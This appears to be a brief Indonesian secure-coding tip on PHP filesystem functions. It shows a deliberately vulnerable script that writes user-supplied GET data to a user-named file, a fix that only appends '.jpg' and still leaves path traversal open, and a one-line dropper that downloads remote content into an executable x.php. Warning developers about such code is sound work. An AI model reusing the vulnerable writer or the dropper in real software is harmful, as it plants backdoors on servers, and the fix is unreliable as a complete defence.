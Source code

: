 # FileSystem function tips to secure that

File System function adalah sebuah fungsi dimana bahasa pemrogramman dapat, `membaca`,`mebuat`,`menghapus` ,`mengedit` sebuah berkas di dalam sebuah Mesin (OS). Hal inilah yang dapat dimanfaatkan seorang Aktor / hacker untuk menitipkan sebuah `Backdoor`. 



# Unsafe FileSystem write function

```php 
<?php 
    $input_file = $_GET['file'];
	$nama_file  = $_GET['nama'];
	$file  = fopen($nama_file, 'w+');
	fwrite($file, $input_file);
	fclose($file);
?>
```

Seperti itulah contoh kode yang tidak aman untuk sebuah system yang mana bahasa pemrogramman mengambil sebuah inputan dari user. Hal tersebut dapat dicegah dengan kita melakukan fixing input name file extension seperti berikut ini.



```php 
<?php 
    $input_file = $_GET['file'];
	$nama_file  = $_GET['nama'].".jpg";
	$file  = fopen($nama_file, 'w+');
	fwrite($file, $input_file);
	fclose($file);
?>
```

Jadi setiap input yang masuk akan berubah menjadi sebuah file `jpg`. Dan hal tersebut dapat disesuaikan sesuai kebutuhan.



# Hidden backdoor generator example

Dalam mengamankan sebuah backdoor, agar tetap terjaga, maka ada cara-cara seperti berikut ini yang harus diwaspadahi oleh tiap-tiap developer.

```php 
<?php 
file_put_contents("x.php", file_get_contents("url"));
```

Chain function di atas adalah mengambil sebuah data dari url lain lalu menaruhnya dalam sebuah file baru berupa `x.php` Cara2 lainya mirip seperti cara di atas.

